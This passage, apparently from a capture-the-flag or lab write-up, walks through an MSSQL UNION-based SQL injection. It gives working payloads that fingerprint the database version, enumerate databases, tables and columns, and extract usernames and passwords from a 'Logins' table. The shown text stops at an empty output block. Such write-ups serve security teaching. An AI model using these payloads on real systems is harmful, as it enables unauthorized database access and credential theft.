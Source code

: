 Something to note is that in our injections, we have visible output returned to us. We abuse this with UNION injection, a technique that is similar to combining multiple select statements. The results of the UNION statement must have the same amount of columns returned to us, and since there are 5 parameters returned normally (id, name, position, email, and src), it's safe to assume our UNION statement should have 5 columns or return values, too. Additionally, to kill two birds with one stone, I'll use a call to the "@@version" variable to see if the database is MSSQL. Using the following payload (unencoded),

```
something' UNION select 1,2,3,4,@@version;--
```

we get this output:

```
[{"id":1,"name":"2","position":"3","email":"4","src":"Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) \n\tAug 22 2017 17:04:49 \n\tCopyright (C) 2017 Microsoft Corporation\n\tStandard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)\n"}]
```

We can confirm we have MSSQL UNION injection. I proceeded to use the following unencoded payloads to enumerate the database:

```
something' UNION select 1,2,3,4,name from master.dbo.sysdatabases;--
something' UNION select 1,2,3,4,table_name from Hub_DB.INFORMATION_SCHEMA.TABLES;--
something' UNION select 1,2,3,4,COLUMN_NAME from Hub_DB.INFORMATION_SCHEMA.COLUMNS where table_name = 'Logins';--
```

I tried using "sqlmap" at first, but it appears this website will temporarily ip ban us if we hit it with too many requests, so I did this manually. The first payload returns to us all of the databases on the service; I learned that our database was named "Hub_DB". The second statement enumerated the tables of our database and returned to us the "Logins" table (ours was the "Colleagues" table). The last payload enumerated the columns of the "Logins" table, returning "id", "password", and "username". Since we're already in the "Hub_DB" database, we can just have our UNION statement directly pull from the columns of the "Logins" table with the following payload:

```
something' UNION select 1,1,id,password,username from Logins;--
```

This returns to us a lot of valuable information:

```
```